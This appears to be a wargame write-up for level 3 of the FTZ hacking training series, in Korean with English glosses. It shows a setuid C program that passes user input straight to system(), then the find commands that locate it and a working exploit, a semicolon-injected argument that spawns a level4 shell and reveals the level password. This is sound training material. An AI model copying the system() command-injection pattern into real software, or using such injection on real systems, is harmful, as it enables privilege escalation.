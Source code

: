 # Level3

This level's goal

- system('CMD') vulnerability

***

`[level3@ftz level3]$ cat hint`

다음 코드는 **autodig**의 소스이다.   
(This code is autodig's source)
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

char cmd[100];

if( argc!=2 ){
    printf( "Auto Digger Version 0.9\n" );
    printf( "Usage : %s host\n", argv[0] );
    exit(0);
}

strcpy( cmd, "dig @" );
strcat( cmd, argv[1] );
strcat( cmd, " version.bind chaos txt");

system( cmd );
}
```

이를 이용하여 level4의 권한을 얻어라.   
(Get level4's privilege with using this)

more hints.

1) 동시에 여러 명령어를 사용하려면?   
(how to use several commands at the same itme?)

2) 문자열 형태로 명령어를 전달하려면?   
(how to pass the command of string?) 
***

```
[level3@ftz level3]$ find / -name autodig 2>/dev/null
/bin/autodig
[level3@ftz level3]$ find / -user level4 -perm -4000 2>/dev/null
/bin/autodig
[level3@ftz level3]$ ls -l /bin/autodig
-rwsr-x---    1 level4   level3      12194 Aug 19  2014 /bin/autodig
```

```
[level3@ftz level3]$ /bin/autodig "8.8.8.8 www.naver.com; bash;"
[level4@ftz level3]$ my-pass

Level4 Password is "suck my brain".
```

